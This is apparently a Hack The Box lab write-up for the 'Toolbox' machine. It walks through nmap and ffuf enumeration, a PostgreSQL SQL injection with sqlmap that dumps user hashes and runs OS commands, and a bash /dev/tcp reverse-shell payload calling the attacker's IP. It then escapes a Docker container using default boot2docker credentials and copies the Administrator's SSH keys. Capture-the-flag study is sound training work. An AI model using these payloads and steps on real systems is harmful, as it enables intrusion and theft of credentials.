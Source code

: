 ```yaml
---
title: "[HTB] Machine: Toolbox"
description: "[HTB] Machine: Toolbox"
date: 2023-07-09
menu:
  sidebar:
    name: "[HTB] Machine: Toolbox"
    identifier: htb-machine-toolbox
    parent: htb-machines-windows
    weight: 10
hero: images/toolbox.png
tags: ["HTB", "docker-toolbox", "ffuf", "sqli", "postgresql", "sqlmap", "docker", "container"]
---
```


# Toolbox
## Enumeration
- `nmap`
```
└─$ nmap -sC -sV -Pn 10.10.10.236
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-09 19:02 BST
Nmap scan report for 10.10.10.236 (10.10.10.236)
Host is up (0.15s latency).

PORT     STATE SERVICE       VERSION
21/tcp   open  ftp           FileZilla ftpd
| ftp-syst: 
|_  SYST: UNIX emulated by FileZilla
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-r-xr-xr-x 1 ftp ftp      242520560 Feb 18  2020 docker-toolbox.exe
22/tcp   open  ssh           OpenSSH for_Windows_7.7 (protocol 2.0)
| ssh-hostkey: 
|   2048 5b1aa18199eaf79602192e6e97045a3f (RSA)
|   256 a24b5ac70ff399a13aca7d542876b2dd (ECDSA)
|_  256 ea08966023e2f44f8d05b31841352339 (ED25519)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
443/tcp  open  ssl/http      Apache httpd 2.4.38 ((Debian))
|_http-title: MegaLogistics
| ssl-cert: Subject: commonName=admin.megalogistic.com/organizationName=MegaLogistic Ltd/stateOrProvinceName=Some-State/countryName=GR
| Not valid before: 2020-02-18T17:45:56
|_Not valid after:  2021-02-17T17:45:56
| tls-alpn: 
|_  http/1.1
|_ssl-date: TLS randomness does not represent time
|_http-server-header: Apache/2.4.38 (Debian)
445/tcp  open  microsoft-ds?
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2023-07-09T18:02:45
|_  start_date: N/A
| smb2-security-mode: 
|   311: 
|_    Message signing enabled but not required
|_clock-skew: -32s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 25.49 seconds

```
- Web server
  - There is also a certificate for `admin.megalogistic.com`

![](./images/1.png)
![](./images/2.png)

- `ffuf`
```
└─$ ffuf -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -u https://10.10.10.236 -H "Host: FUZZ.megalogistic.com" -k -fs 22357 

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.0.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : https://10.10.10.236
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt
 :: Header           : Host: FUZZ.megalogistic.com
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
 :: Filter           : Response size: 22357
________________________________________________

[Status: 200, Size: 889, Words: 134, Lines: 36, Duration: 124ms]
```

- `admin.megalogistic.com`

![](./images/3.png)

- `ftp`

![](./images/4.png)

- `smb`

![](./images/5.png)

## Foothold/User
- So the only option is to check `admin` panel
  - I went through possible [entry point payloads](https://book.hacktricks.xyz/pentesting-web/sql-injection)
  - We have an error indicating that the backend database is `postgresql`

![](./images/6.png)

- Since we know the database, we can test bypass login payloads from [Hacktricks](https://book.hacktricks.xyz/pentesting-web/login-bypass/sql-login-bypass)
  - I went with the following payload `' or 1=1 --`

![](./images/7.png)

- But found nothing
  - So I ran `sqlmap` by saving request file from `Burp`
  - `sqlmap -r admin.megalogistic --force-ssl --batch --dbs` to list databases
  - `sqlmap -r admin.megalogistic --force-ssl --batch -D public --tables` to dump tables from `public` database
  - `sqlmap -r admin.megalogistic --force-ssl --batch -D public -T users --dump` to dump `users` table
  - Retrieved admin's hash `4a100a85cb5ca3616dcf137918550815` - but failed to crack it

![](./images/8.png)
![](./images/9.png)
![](./images/10.png)

- Let's try executing commands
  - `sqlmap -r admin.megalogistic --force-ssl --batch --os-cmd whoami`
  - And it works

![](./images/11.png)

- Let's get reverse shell
  - Spawn interactive shell to send a payload `sqlmap -r admin.megalogistic --force-ssl --batch  --os-shell`
  - Payload: `bash -c "bash -i >& /dev/tcp/10.10.16.12/6666 0>&1"` 

![](./images/12.png)
![](./images/13.png)

- The flag can be found in `/var/lib/postgresql` folder

## Root
- Currently we're in the container and need to escape it
  - Enumeration of the container revealed nothing
  - We might need to check the `exe` file found in `ftp`
  - We saw `Docker Toolbox`
  - Found [boot2docker](https://github.com/boot2docker/boot2docker#ssh-into-vm)
  - Apparently we can `ssh` to VM using following credentials `docker:tcuser`
  - If we check `ifconfig`, we have `172.17.0.2` so VM is probably `.1`

![](./images/14.png)
![](./images/15.png)

- We have `sudo` rights

![](./images/16.png)

- If we check the `/etc/*release`
  - It is indeed `boot2docker`

![](./images/17.png)

- Let's continue checking directories
  - We have `c` folder in the `/` path
  - If we check it, we see `Users`
  - If we continue following the path, we have an access to `Administrator`'s directory
  - So `Users` is probably mounted to `c`

![](./images/18.png)
![](./images/19.png)

- If we check `Administrator`'s directory we find `.ssh` folder which contains his keys
  - Let's copy them and connect

![](./images/20.png)
![](./images/21.png)
